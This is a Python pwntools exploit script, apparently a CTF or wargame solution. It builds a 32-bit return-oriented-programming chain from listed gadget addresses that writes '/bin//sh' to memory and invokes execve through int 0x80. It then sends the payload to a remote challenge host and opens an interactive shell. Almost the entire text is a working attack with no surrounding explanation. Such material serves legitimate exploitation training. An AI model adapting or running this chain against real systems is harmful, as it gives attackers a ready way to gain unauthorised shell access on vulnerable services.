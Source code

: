 ```python3
0x0806ebb2: pop ecx; pop ebx; ret; 
0x0806eb8b: pop edx; ret; 
0x080496d8: pop esi; ret; 

0x08049533: int 0x80;
"""

# p = process("./static")
p = remote("plsdonthaq.me", 6002)

# Optionally `push eax; pop ebx`
# 0x0806ee5b: push eax; adc al, 0x7c; and dword ptr [esi + 0x1a], edi; pop ebx; ret;
# But this is ugly

writableAddress = 0x80d8000 # Some writeable region that stays in the same location

payload = b''
payload += b'\x90' * 0x10

# eax = edx = writableAddress
payload += p32(0x0806eb8b)      # pop edx; ret;
payload += p32(writableAddress)
payload += p32(0x08064564)      # mov eax, edx; ret;

# *eax = edx = "/bin"
payload += p32(0x0806eb8b)      # pop edx; ret; 
payload += b'/bin'
payload += p32(0x0809ceb4)      # mov dword ptr [eax], edx; ret;

# *(eax+4) = edx = "//sh"
payload += p32(0x0806eb8b)      # pop edx; ret; 
payload += b'//sh'
payload += p32(0x08055632)      # mov dword ptr [eax + 4], edx; ret; 

# eax = 0xb
payload += p32(0x0806eb8b)      # pop edx; ret;
payload += p32(0xb)
payload += p32(0x08064564)      # mov eax, edx; ret;

# ecx = 0
# ebx = writableAddress
payload += p32(0x0806ebb2)      # pop ecx; pop ebx; ret; 
payload += p32(0)
payload += p32(writableAddress)

# edx = 0
payload += p32(0x0806eb8b)      # pop edx; ret; 
payload += p32(0)

# esi = 0
payload += p32(0x080496d8)      # pop esi; ret;
payload += p32(0)

payload += p32(0x08049533)      # int 0x80;

p.sendline(payload)
p.interactive()
```
